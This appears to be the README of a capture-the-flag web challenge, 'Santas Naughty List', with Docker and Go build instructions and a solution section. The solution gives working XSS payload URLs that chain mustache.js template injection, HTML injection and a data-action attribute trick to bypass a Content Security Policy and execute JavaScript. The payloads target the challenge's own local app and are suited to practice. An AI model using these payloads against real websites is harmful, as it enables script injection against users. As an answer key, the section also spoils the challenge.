 # SANTAS NAUGHTY LIST

SANTAS NAUGHTY LIST is using a strict Content Security Policy to protected against all(?) XSS attacks.

## Description

Everybody is affected by COVID-19, even Santa! He can not handing out gifts due to the massive lockdown. If he cannot to find a bypass, nobody will get presents this year.

## Build with Docker

```bash
docker-compose build
```

## Run with Docker

Add flag to ``flag.txt``.

```bash
docker-compose up --build
```

The web server is exposed on TCP port 26. You can change it in the ``docker-compose.yml`` file.

## Build without Docker

First install [go](https://golang.org/). Next you have to install the go dependencies:

```bash
go get
```

The project is using [Go Modules](https://github.com/golang/go/wiki/Modules).

```bash
# Linux AMD64 portable
CGO_ENABLED=0 GOOS=linux GOARCH=amd64 go build
```

## Usage without Docker

Start server:
```bash
./santas-naughty-list
```

## Solution

If you solved one step, the app will detect it and print a message.

1. Step: Find mustache.js template injection:
```
    http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%22}&lang={{name}}
```

2. Step: Inject HTML:
```
naughty={"test":"\"><h1>HTML Injeciton</h1>"}
lang={{{people.test}}}

http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%3Ch1%3EHTML%20Injeciton%3C/h1%3E%22}&lang={{{people.test}}}
```
3. Step: Execute abritary JavaScript via ``data-action`` attribute:
```
naughty={"test":"\"><a href=x data-action='{\"method\":\"alert\",\"parameters\":[\"hello\"]}'>HTML Injection</a>"}
lang={{{people.test}}}

http://localhost:8080/default.aspx?naughty={%22test%22:%22\%22%3E%3Ca%20href=x%20data-action=%27{\%22method\%22:\%22alert\%22,\%22parameters\%22:[\%22hello\%22]}%27%3EHTML%20Injection%3C/a%3E%22}&lang={{{people.test}}}
```
The flag will be disclosed if you successfully injected JavaScript.